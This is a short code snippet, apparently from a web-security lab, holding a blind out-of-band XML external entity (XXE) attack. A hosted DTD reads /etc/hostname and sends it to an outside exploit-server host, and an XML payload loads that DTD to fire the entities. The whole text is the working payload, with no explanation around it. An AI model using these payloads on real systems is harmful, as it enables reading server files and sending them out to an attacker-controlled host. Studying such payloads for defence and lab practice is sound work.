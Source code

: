 //hosted payload

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfile  SYSTEM 'https://exploit-0ae1006404b4b263c00cb47f01ae0023.exploit-server.net/?hostname=%file;'>">


//xxe payload

<!DOCTYPE test [<!ENTITY % xxe SYSTEM "https://exploit-0ae1006404b4b263c00cb47f01ae0023.exploit-server.net/exploit">
%xxe; 
%stack; 
%exfile;]>
